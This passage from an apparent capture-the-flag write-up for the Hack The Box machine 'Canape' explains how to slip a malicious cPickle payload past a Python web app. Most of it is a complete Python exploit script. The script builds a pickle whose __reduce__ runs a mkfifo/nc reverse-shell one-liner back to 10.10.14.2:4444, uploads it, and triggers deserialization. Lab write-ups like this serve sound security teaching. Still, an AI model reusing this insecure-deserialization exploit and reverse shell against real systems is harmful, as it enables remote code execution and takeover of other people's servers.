 - Thing to note here is its appening char + quote .

→ So what we can do is essentially make char a string to be deserialized in cPickle which will make it valid non-executable code by adding **`(S'`** to the front of the string. We also add **`\n`** for the line break to prevent the concatenation we saw earlier. Which will look something like this :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Canape%20Box%20e6ca8c6955f94958b1d71d2f5a203bc1/Untitled%205.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Canape%20Box%20e6ca8c6955f94958b1d71d2f5a203bc1/Untitled%205.png)

⇒ Our exploit script :

```python
import requests
import cPickle
from hashlib import md5
import os

url = "http://10.10.10.70/"

class Exploit(object):
    def __reduce__(self):
        return (os.system,('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 4444 >/tmp/f',))

quote = cPickle.dumps(Exploit())

char = "(S'homer'\n"

p_id = md5(char + quote).hexdigest()

# Uploading :

upload_data = [('character',char), ('quote',quote)]
requests.post(url +"submit", data=upload_data)

# TRiggering Pickle :

id_data = [('id',p_id)]
(requests.post(url + "check", data=id_data))
```

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Canape%20Box%20e6ca8c6955f94958b1d71d2f5a203bc1/Untitled%206.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Canape%20Box%20e6ca8c6955f94958b1d71d2f5a203bc1/Untitled%206.png)
